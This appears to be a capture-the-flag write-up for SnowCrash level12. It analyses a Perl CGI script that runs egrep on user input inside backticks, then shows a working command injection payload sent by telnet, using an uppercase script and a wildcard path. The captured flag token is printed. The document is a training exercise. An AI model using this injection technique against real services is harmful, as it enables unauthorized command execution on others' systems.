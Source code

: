 In level12, we have a perl script that is a bit similar to the script in level04, namely a cgi script to which we might be able to send an html request.
The script is a bit more complex than in level04.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```


It accepts two params x and y.
It passes x and y as arguments to a subroutine (=function) t that:
converts x to uppercase, strips anything after the first whitespace
it will then look with the command egrep for the lines that begins with the content in x in the file /tmp/xd
for each line that match, it will then split each line on the first occurence of ':'
then if the second part of any of the line matches the regular expression in the variable y, it will return 1, else it will return 0
the result of this t function will be passed to a n function that prints '..' if the parameter is 1 and '.' if the parameter is 0.

Most likely, the program vulnerability is on the egrep line as it is the only point where the program interacts with the shell

in fact, if we have getflag in our /tmp/xd file and we type the following command, it launches the getflag command:
```bash
level12@SnowCrash:~$ `egrep "^getflag" /tmp/xd 2>&1`
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
however, the issue is that the program set the text to upper case before processing it and GETFLAG won't work. We can work around this by setting a variable GETFLAG=getflag

```bash
level12@SnowCrash:~$ export GETFLAG=getflag
level12@SnowCrash:~$ `egrep "^$GETFLAG" /tmp/xd 2>&1`
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```

The issue is that the program doesn't run in the same shell instance, so the variable we created doesn't exist.
I also tried by writing this line in the /tmp/xd file /bin/getflag | wall (wall so that the message is sent to all instances of shell).
And passing '/' as x argument to my program, the idea being that egrep would match with the line as it starts by / and therefore thanks to the backticks would execute the command /bin/getflag | wall.

However, it is not working and it is due I think to the fact that the output of `/bin/getflag | wall` is captured in the output variable and not executed directly so we can't get the result as a message on the shell.

The solution would then be to be able to somehow replace the xx variable by `getflag | wall` (with backticks), so that it is executed within the command execution for the output variable.

We just need a workaround to inject it with uppercase and a solution is to have a file in UPPERCASE that is a script for getflag.

We create such a script in /tmp/SCRIPT
```bash
#!/bin/sh
getflag | wall
```

and in order to work around the fact that tmp is lowercase, we can use a wildcard and call the script like that /*/SCRIPT. We then give the execution right to our script chmod +x /tmp/SCRIPT

we can connect with telnet ```telnet localhost 4646``` and send the following request
POST /level12.pl HTTP/1.1
Host: localhost
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

x=`/*/SCRIPT`

```bash
level12@SnowCrash:~$ telnet localhost 4646
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
POST /level12.pl HTTP/1.1
Host: localhost
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

x=`/*/SCRIPT`
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 11:51 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr                      
                                                                               
HTTP/1.1 200 OK
Date: Thu, 23 Nov 2023 10:51:43 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Connection: close
Content-Type: text/html

..Connection closed by foreign host.
```

and bingo we get our token
